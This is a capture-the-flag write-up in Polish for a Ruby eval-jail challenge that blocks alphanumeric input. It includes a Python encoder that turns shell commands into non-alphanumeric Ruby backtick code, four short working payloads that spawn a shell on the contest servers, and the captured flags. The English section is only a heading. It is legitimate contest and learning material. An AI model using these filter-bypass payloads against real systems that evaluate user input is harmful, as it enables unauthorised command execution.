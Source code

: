 ﻿## HardToSay (misc, 200p, ?? solves)

    Ruby on Fails.
    FLAG1: nc 54.199.215.185 9001
    FLAG2: nc 54.199.215.185 9002
    FLAG3: nc 54.199.215.185 9003
    FLAG4: nc 54.199.215.185 9004

    hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb

### PL
[ENG](#eng-version)

Dostajemy taki kod:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

Jak widać pobiera on od użytkownika kod, i evaluje go - ale tylko pod warunkiem że nie zawiera znaków alfanumerycznych i jest odpowiednio krótki.

Są cztery serwery z zadaniem - każdy z nich przyjmuje mniej znaków. Pierwszy 1024, drugi 64, trzeci 36, a czwarty tylko 10. Za pokonanie każdego dostajemy 50 punktów.

Najlepszym rozwiązaniem na jakie wpadliśmy na początku to wykonanie operacji na shellu za pomocą backticków (``` ` ```) i interpolowania stringów.
Napisaliśmy sobie prosty enkoder wykonujący dowolne (odpowiednio krótkie) polecenie shellowe:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

Flaga: `hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}`

+50 punktów. Zdobyliśmy w ten sposób pierwszą flagę. Niestety, okazało się że nie da się ukraść jednej flagi mając shella od drugiej flagi (brak uprawnień) i musieliśmy
kombinować dalej...

Postanowiliśmy złożyć string "sh". Nasza druga próba, dla 64 znaków, wyglądała tak:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

Flaga: `hitcon{Ruby in Peace m(_ _)m`

+50 punktów. A następnie dla 36 bajtów:

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

Flaga: `hitcon{My cats also know how to code in ruby :cat:}`

+50 punktów. Później myśleliśmy dłuższą chwilę, ale wpadliśmy na to, że wykonanie $0 również powinno dać nam shell - spróbowaliśmy więc:

    `$#{~-$.}`

Flaga: `hitcon{It's hard to say where ruby went wrong QwO}`

W ten sposób zdobyliśmy kolejne 50 punktów, rozwiązując w ten sposób całe zadanie.

### ENG version

